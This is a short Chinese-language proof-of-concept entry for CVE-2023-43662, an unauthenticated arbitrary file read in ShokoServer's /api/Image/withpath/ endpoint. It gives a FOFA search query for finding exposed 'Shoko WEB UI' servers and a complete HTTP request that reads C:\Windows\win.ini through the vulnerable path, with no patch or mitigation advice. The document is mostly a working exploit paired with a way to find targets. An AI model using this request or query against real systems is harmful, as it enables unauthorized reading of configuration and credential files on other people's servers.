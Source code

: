 ## ShokoServer系统withpath任意文件读取漏洞(CVE-2023-43662)

ShokoServer /api/Image/withpath/接口处存在任意文件读取漏洞，未经身份验证得攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```
title="Shoko WEB UI"
```

## poc

```
GET /api/Image/withpath/C:\Windows\win.ini HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20240621183622365](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211836419.png)